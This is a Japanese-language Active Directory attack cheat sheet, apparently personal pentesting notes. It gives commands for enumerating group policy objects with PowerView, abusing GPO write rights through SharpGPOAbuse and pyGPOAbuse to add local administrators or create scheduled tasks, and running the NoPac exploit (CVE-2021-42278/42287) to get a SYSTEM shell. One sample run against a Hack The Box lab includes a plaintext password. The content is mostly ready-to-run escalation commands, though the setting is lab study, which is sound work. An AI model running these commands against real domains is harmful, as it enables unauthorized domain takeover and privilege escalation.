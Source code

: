 ## GPO (グループポリシーオブジェクト) の悪用
### 列挙
#### PowerView

PowerViewはこいつしか信用するな
```sh
wget https://github.com/PowerShellMafia/PowerSploit/raw/refs/heads/dev/Recon/PowerView.ps1
```


ドメイン内のGPOを列挙し、その設定やACLの確認
- 出力結果に、Default Domain Policyがあったらピンと来い
	- ドメイン全体のすべてのコンピュータとユーザーのポリシーだから、これに対して、GPOADMがGenericAll権限があるってことは、GPOADM自身を管理者グループに入れることができてしまうこともある
```powershell
Get-DomainGPO
```
- ACL確認
```powershell
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```
### 攻撃
### SharpGPOAbuse.exe
GPOの書き込み権限を悪用して、ローカル管理者追加やスケジュールタスク作成など
- ローカル管理者追加
```powershell
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <USER_TO_ADD> --GPOName "<GPO_NAME>"
```
- タスク作成
```powershell
SharpGPOAbuse.exe --AddTask --TaskName "<TASK_NAME>" --Command "<COMMAND>" --Arguments "<ARGS>" --GPOName "<GPO_NAME>"
```

###  pyGPOAbuse.py
ダウンロード
```sh
git clone https://github.com/Hackndo/pyGPOAbuse
pip install -r requirements.txt
```

GPOADMを管理者グループに追加する
- 31B2F340-016D-11D2-945F-00C04FB984F9は、Default Domain PolicyのSID
```sh
┌──(venv)─(kali㉿kali)-[~/Desktop/HTB/BabyTwo/pyGPOAbuse]
└─$ python pygpoabuse.py baby2.vl/GPOADM:SuperPass123! -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -command 'net localgroup administrators GPOADM /add' -f
[+] ScheduledTask TASK_c0847a16 created!
```

## 脆弱性利用
### NoPac
SamAccountName Spoofing - CVE-2021-42278 & CVE-2021-42287
ドメインユーザーからドメイン管理者へ昇格可能な脆弱性を悪用
- スキャン
```shell
sudo python3 scanner.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP> -use-ldap
```
- SYSTEMシェル取得
```shell
sudo python3 noPac.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP> -dc-host <DC_HOSTNAME> -shell --impersonate administrator -use-ldap
```